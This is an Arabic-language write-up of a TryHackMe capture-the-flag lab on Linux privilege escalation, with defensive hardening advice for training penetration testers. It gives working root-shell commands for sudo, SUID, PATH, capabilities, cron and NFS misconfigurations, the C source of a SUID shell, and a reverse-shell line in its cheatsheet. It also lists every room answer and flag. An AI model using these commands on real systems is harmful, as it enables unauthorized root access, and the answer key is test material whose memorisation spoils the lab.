

# توثيق غرفة أساسيات تصعيد صلاحيات لينكس (Linux Privilege Escalation: Basics)

---

## 1. بيانات المديول والغرفة (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثالث عشر — تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)
* **اسم الغرفة:** أساسيات تصعيد صلاحيات لينكس (Linux Privilege Escalation: Basics)
* **المعرف البرمجي (Slug):** `linprivbasics`
* **الرابط المباشر:** [TryHackMe Linux Privilege Escalation: Basics](https://tryhackme.com/room/linprivbasics)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة عملية وتطبيق استغلال مباشر (Walkthrough & Hands-on Exploitation Lab)
* **سيناريو التقييم:** استغلال عملي لـ 6 نواقل رئيسية لتصعيد الصلاحيات من مستخدم عادي (`john`) إلى المستخدم الجذري (`root`)
* **عدد المهام:** 8 مهام
* **عدد الأسئلة:** 15 سؤالاً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Linux Privilege Escalation: Basics** النواة التطبيقية لتصعيد الصلاحيات على أنظمة لينكس ضمن مسار Jr Penetration Tester. بعد استيعاب آليات التعداد اليدوي في الغرفة السابقة، تنتقل هذه الغرفة بالمختبر إلى مرحلة **الاستغلال العملي (Weaponization & Exploitation)**، حيث يتم تحويل التكوينات الخاطئة الشائعة إلى صدفات أوامر جذرية (`root shells`) كاملة الصلاحيات.

تُغطي الغرفة بالتفصيل والبرهان العملي ستة نواقل هجومية كلاسيكية وحديثة:
1. **استغلال تفويض Sudo:** إساءة استخدام البرامج التفاعلية الممنوحة بدون كلمة سر (`/usr/bin/nano`) واستغلالها للهروب الصدفي وقراءة الملفات الحساسة (`THM{SUDO-pwned-priv-esc}`).
2. **استغلال ملفات SUID:** استغلال محرر النصوص `/usr/bin/vim.basic` الحامل لبت SUID لتجاوز ضوابط النظام واستخراج فلاج الجذر (`THM{root-by-SUID-vulns}`).
3. **اختطاف مسار البحث التنفيذي (PATH Hijacking):** استغلال ثنائي مخصص `/opt/path/mywhoami` يستدعي أمر `whoami` دون مسار مطلق، وحقن ثنائي خبيث في `/tmp` للحصول على فلاج الجذر (`THM{PATH-and-SUID-leadtoroot}`).
4. **استغلال قدرات لينكس الجزئية (Capabilities):** استغلال قدرة `cap_setuid+ep` الممنوحة لمفسر بايثون `/usr/bin/python3.12` لتعديل UID إلى 0 والحصول على الفلاج (`THM{caps_getting_r00T}`).
5. **استغلال أتمتة المهام المجدولة (Cron Jobs):** تعديل سكريبت تنظيف `/opt/cleanup.sh` المجدول في `/etc/cron.d/cleanup` والذي يمتلك صلاحيات كتابة عامة (`0777`) لحصد فلاج الجذر (`THM{g0t-r00t-from-cr0n}`).
6. **استغلال مشاركات NFS الشبكية (`no_root_squash`):** استغلال مشاركة `/opt/nfs` المفتوحة بدون تقييد صلاحيات الجذر، وزرع برنامج C تنفيذي ببت SUID من آلة المهاجم لتشغيله كـ root على الخادم (`THM{exports-r00T-nfs}`).

---

## 3. مخطط نواقل تصعيد الصلاحيات (Attack Vectors Architecture)

يوضح المخطط التالي النواقل الستة المدروسة وكيفية تحويل كل خطأ تكوين إلى صدفة أوامر جذرية:



---

## 4. المتطلبات والمفاهيم الأساسية (Prerequisites & Core Foundations)

### مبدأ الصلاحيات الأقل (Principle of Least Privilege):
* كل نقطة ضعف تم استغلالها في هذا المعمل تعود لخرق مباشر لمبدأ الصلاحيات الأقل.
* منح تطبيق مخصص صلاحيات أوسع مما يحتاجه (مثل منح nano إذن root، أو منح بايثون قدرة `cap_setuid`) يلغي كافة الحواجز الأمنية للنظام.

### مفهوم التمييز بين المعرفات (RUID vs EUID):
* **Real UID (RUID):** يحدد المستخدم الفعلي الذي أطلق العملية (1000).
* **Effective UID (EUID):** هو المعرف الذي تعتمد عليه نواة لينكس للتحقق من أذونات الوصول وقراءة الملفات (0 عند تفعيل SUID أو استدعاء `setuid(0)`).

---

## 5. الناقل الأول: استغلال تفويضات Sudo

* **آلية الاكتشاف:** تشغيل `sudo -l` لرصد الأوامر المسموح بتشغيلها.
* **الثنائي المكتشف:** `/usr/bin/nano` بدون طلب كلمة سر (`NOPASSWD`).
* **طريقة الاستغلال:**
  1. قراءة الفلاج مباشرة عبر فتح الملف:
     ```bash
     sudo /usr/bin/nano /root/flag.txt
     ```
  2. الهروب الصدفي من داخل نانو: الضغط على `Ctrl+R` ثم `Ctrl+X` وإدخال:
     ```bash
     reset; sh 1>&0 2>&0
     ```

---

## 6. الناقل الثاني: استغلال بت SUID

* **آلية الاكتشاف:** البحث عن ثنائيات تحمل بت التثبيت:
  ```bash
  find / -type f -perm -04000 -ls 2>/dev/null
  ```
* **الثنائي الشاذ:** `/usr/bin/vim.basic` مملوك لـ root ويحمل إذن `rwsr-xr-x`.
* **طريقة الاستغلال:**
  ```bash
  /usr/bin/vim.basic /root/flag.txt
  # أو فتح صدفة جذرية:
  /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  ```

---

## 7. الناقل الثالث: اختطاف مسار البحث التنفيذي (PATH)

* **آلية الاكتشاف:** العثور على أداة مخصصة ببت SUID في مسار غير قياسي: `/opt/path/mywhoami`.
* **فحص السلاسل النصية:**
  ```bash
  strings /opt/path/mywhoami | grep whoami
  ```
  أظهرت النتيجة استدعاء أمر `whoami` بشكل نسبي دون مسار مطلق (`/usr/bin/whoami`).
* **طريقة الاستغلال:**
  ```bash
  # 1. إنشاء سكريبت خبيث في /tmp
  echo '#!/bin/bash' > /tmp/whoami
  echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' >> /tmp/whoami
  chmod +x /tmp/whoami

  # 2. تعديل متغير PATH ليسبق /tmp المسارات الأخرى
  export PATH=/tmp:$PATH

  # 3. تشغيل الثنائي
  /opt/path/mywhoami
  ```

---

## 8. الناقل الرابع: استغلال قدرات لينكس الجزئية (Capabilities)

* **آلية الاكتشاف:** استعلام السمات الممتدة للقدرات:
  ```bash
  getcap -r / 2>/dev/null
  ```
* **النتيجة:** تم العثور على 6 برامج تمتلك قدرات، من بينها مفسر بايثون `/usr/bin/python3.12` مزود بقدرة `cap_setuid+ep`.
* **طريقة الاستغلال:**
  ```bash
  /usr/bin/python3.12 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  # النتيجة: صدفة أوامر جذرية فورية
  cat /root/flag.txt
  ```

---

## 9. الناقل الخامس: استغلال المهام المجدولة (Cron Jobs)

* **آلية الاكتشاف:** فحص ملفات المهام المجدولة في `/etc/cron.d/`:
  ```bash
  cat /etc/cron.d/cleanup
  # المحتوى: * * * * * root /opt/cleanup.sh
  ```
* **فحص الصلاحيات:** فحص إذن الملف `/opt/cleanup.sh` أظهر أنه `0777` (قابل للكتابة من الجميع).
* **طريقة الاستغلال:**
  ```bash
  echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' >> /opt/cleanup.sh
  # الانتظار لمدة 60 ثانية حتى ينفذ ديمون cron
  cat /tmp/flag.txt
  ```

---

## 10. الناقل السادس: استغلال مشاركات NFS عبر `no_root_squash`

* **آلية الاكتشاف:** فحص ملف التصدير `/etc/exports`:
  ```bash
  cat /etc/exports
  # النتيجة: /opt/nfs *(rw,sync,no_root_squash,no_subtree_check)
  ```
* **الخلل الأمني:** خيار `no_root_squash` يثق في هوية المستخدم الجذري القادم من العميل الخارجي ولا يقوم بتخفيض صلاحياته إلى `nobody`.
* **طريقة الاستغلال (من آلة المهاجم Kali كـ root):**
  ```bash
  # 1. وصل المشاركة محلياً
  mkdir /tmp/nfs_mount
  mount -o rw 10.10.x.x:/opt/nfs /tmp/nfs_mount

  # 2. كتابة كود C وتصريفه مع تفعيل بت SUID
  cat << 'EOF' > /tmp/nfs_mount/shell.c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
      setuid(0);
      setgid(0);
      system("/bin/bash -p");
      return 0;
  }
  EOF
  gcc /tmp/nfs_mount/shell.c -o /tmp/nfs_mount/root_shell -w
  chmod +s /tmp/nfs_mount/root_shell

  # 3. العودة للهدف كـ john وتشغيل الثنائي:
  cd /opt/nfs && ./root_shell
  ```

---

## 11. توثيق وحلول المهام تفصيلياً (Task-by-Task Solutions)

### المهمة 01: المقدمة (Introduction)
* **الإجابة:** `No answer needed`

### المهمة 02: تصعيد الصلاحيات عبر Sudo (Privilege Escalation: Sudo)
* **السؤال 1:** What is the full path of the program that john can run with sudo?
  * **الإجابة:** `/usr/bin/nano`
* **السؤال 2:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{SUDO-pwned-priv-esc}`

### المهمة 03: تصعيد الصلاحيات عبر SUID (Privilege Escalation: SUID)
* **السؤال 1:** What is the full path of the binary in /usr/bin/ that is vulnerable to a SUID exploitation?
  * **الإجابة:** `/usr/bin/vim.basic`
* **السؤال 2:** What are the contents of the flag found in /root/?
  * **الإجابة:** `THM{root-by-SUID-vulns}`

### المهمة 04: تصعيد الصلاحيات عبر PATH (Privilege Escalation: PATH)
* **السؤال 1:** Find a custom SUID binary on the target host... What is the full path of this binary?
  * **الإجابة:** `/opt/path/mywhoami`
* **السؤال 2:** Run the strings command on the SUID binary. What binary does it call from path?
  * **الإجابة:** `whoami`
* **السؤال 3:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{PATH-and-SUID-leadtoroot}`

### المهمة 05: تصعيد الصلاحيات عبر Capabilities (Privilege Escalation: Capabilities)
* **السؤال 1:** How many binaries have set capabilities?
  * **الإجابة:** `6`
* **السؤال 2:** What is the full path of the binary that can be used to gain root through its capabilities?
  * **الإجابة:** `/usr/bin/python3.12`
* **السؤال 3:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{caps_getting_r00T}`

### المهمة 06: تصعيد الصلاحيات عبر Cron Jobs (Privilege Escalation: Cron Jobs)
* **السؤال 1:** What is the full path of the cron job that can be exploited?
  * **الإجابة:** `/etc/cron.d/cleanup`
* **السؤال 2:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{g0t-r00t-from-cr0n}`

### المهمة 07: تصعيد الصلاحيات عبر NFS (Privilege Escalation: NFS)
* **السؤال 1:** What is the full path of the mountable share?
  * **الإجابة:** `/opt/nfs`
* **السؤال 2:** What are the contents of /root/flag.txt?
  * **الإجابة:** `THM{exports-r00T-nfs}`

### المهمة 08: الخاتمة (Conclusion)
* **الإجابة:** `No answer needed`

---

## 12. اعتبارات الأمن التشغيلي (OpSec Considerations)

* **الاستغلال الموجه مقابل التخمين:** استغلال أخطاء التكوين يضمن للمختبر استقراراً بنسبة 100% دون التسبب في سقوط الخادم (Crash) أو إثارة شكوك أجهزة EDR بفعل نداءات ذاكرة غير متوقعة.
* **تنظيف الملفات المؤقتة:** عند إنشاء ملفات تنفيذية في `/tmp` أو تعديل سكريبتات cron، يجب على المختبر توثيق كل تعديل وإرجاع الملفات إلى حالتها الأصلية بعد انتهاء الاختبار لمنع ترك ثغرات خلفه.

---

## 13. الهندسة الدفاعية والمعالجة (Defensive Hardening)

1. **إلغاء صلاحيات Sudo الخطيرة:** حظر تفويض برامج التحرير (`nano`, `vim`, `less`) للمستخدمين العاديين، وتقييد الملف بـ `NOEXEC`.
2. **سحب بت SUID:** تشغيل فحص دوري وسحب بت SUID من أي برامج عامة (`chmod u-s /usr/bin/vim.basic`).
3. **استخدام المسارات المطلقة:** كتابة كافة البرمجيات والسكريبتات الإدارية بمسارات مطلقة كاملة (مثل `/usr/bin/whoami`) لمنع التلاعب بـ `$PATH`.
4. **حظر إسناد `cap_setuid` للمفسرات:** عدم إسناد قدرات التلاعب بالمعرفات لمفسرات اللغات (بايثون، بيرل).
5. **تأمين ملفات Cron:** ضبط أذونات كافة السكريبتات المنفذة في crontab على `0700` مملوكة لـ `root:root`.
6. **تفعيل `root_squash` في NFS:** فرض `root_squash` إلزامياً على جميع المشاركات في `/etc/exports`.

---

## 14. مرجع الأوامر والخطوات القادمة (Cheatsheet & Next Steps)

| الناقل | أمر الاستكشاف | أمر الاستغلال السريع |
| :--- | :--- | :--- |
| **Sudo** | `sudo -l` | `sudo nano` ⟶ `Ctrl+R Ctrl+X` ⟶ `reset; sh 1>&0 2>&0` |
| **SUID** | `find / -perm -4000 -type f 2>/dev/null` | `vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh","sh")'` |
| **PATH** | `strings <binary>` | `echo "/bin/bash -p" > /tmp/target && export PATH=/tmp:$PATH` |
| **Capabilities** | `getcap -r / 2>/dev/null` | `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| **Cron** | `cat /etc/crontab /etc/cron.d/*` | `echo "bash -i >& /dev/tcp/IP/PORT 0>&1" >> /path/to/writable.sh` |
| **NFS** | `cat /etc/exports` | وضع ملف C ببت SUID في المشاركة وتشغيله من الهدف |

### الخطوة التالية في المديول:
الانتقال إلى الغرفة الرابعة في المديول الثالث عشر:
**`04-LINUX-PRIVILEGE-ESCALATION-AUTOMATION`** للتعرف على أدوات الأتمتة المتقدمة (LinPEAS, LinEnum, Exploit Suggesters) واستغلال ثغرات الأنوية والبرمجيات العامة.
